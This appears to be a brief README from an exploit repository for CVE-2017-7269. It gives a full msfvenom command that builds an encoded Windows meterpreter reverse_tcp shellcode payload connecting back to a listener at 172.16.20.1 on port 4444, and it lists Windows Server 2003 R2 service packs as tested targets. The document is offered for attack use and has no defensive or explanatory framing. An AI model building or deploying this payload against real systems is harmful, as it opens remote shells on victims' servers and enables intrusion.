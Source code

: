 # CVE-2017-7269 REC

`Build .bin Payload`

`msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=172.16.20.1 LPORT=4444 >shellcode.bin`

## Test on 

  `Windows Server 2003 R2`
    
    SP1
    SP2
    SP3 English
